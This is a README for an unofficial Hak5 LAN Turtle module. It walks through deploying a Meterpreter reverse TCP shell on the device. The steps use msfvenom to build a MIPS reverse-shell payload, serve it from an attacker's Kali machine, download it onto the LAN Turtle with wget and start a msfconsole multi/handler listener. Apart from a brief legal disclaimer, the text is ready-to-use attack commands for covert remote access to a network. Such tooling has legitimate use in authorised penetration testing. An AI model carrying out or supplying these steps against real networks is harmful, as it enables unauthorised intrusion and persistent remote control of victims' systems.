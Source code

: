 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from github**<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
meterpreter-mipsbe-reverse-tcp`<br />
`mv meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: generate Meterpreter payload with Msfvenom**<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />

**5 - On Kali: start Meterpreter listerner**<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />







